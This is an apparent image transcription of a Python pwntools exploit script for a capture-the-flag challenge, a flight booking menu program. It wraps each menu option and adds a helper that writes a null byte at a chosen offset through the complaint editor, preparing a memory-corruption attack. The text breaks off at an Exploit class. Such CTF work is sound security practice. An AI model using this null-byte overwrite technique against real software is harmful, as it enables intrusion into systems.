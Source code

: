 ```py

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(host, port, ssl=ssl)
    else:
        return process([elf.path] + argv, *a, **kw)




def add_booking(reference, flight, name=None):
    sla(b'> ', b'1')
    sla(b'> ', reference) 
    sla(b'> ', flight)
    if name:    
        sla(b'> ', name)     

def check_in(reference):
    sla(b'> ', b'2')
    sla(b'> ', reference)

def booking_info(reference):
    sla(b'> ', b'3')
    sla(b'> ', reference)
    if b"not found" in rl():
        return None
    ru("Reference: ")
    ref = rl()
    ru("Name: ")
    name = rl()
    ru("Flight: ")
    flight = rl()
    return ref, name, flight

def customer_complaint(reference, complaint):
    sla(b'> ', b'4')
    sla(b'> ', reference)
    sla(b'> ', complaint)
    ru("complaint ID: ")
    return int(ru("."))

def edit_complaint(complaint_id, new_complaint):
    sla(b'> ', b'5')
    sla(b'>', str(complaint_id).encode())
    sla(b'> ', new_complaint)

def book_flight(name):
    sla(b'> ', b'6')
    sla(b'> ', name)
    ru("Reference: ")
    return rl()

def exit_():
    sla(b'> ', b'8')


def null_byte(c_id, offset, byte=b"\x21"):
    edit_complaint(str(c_id), byte*(offset - len(f" - Complaint ID: {c_id}\0")))

@dataclass
class Exploit:
```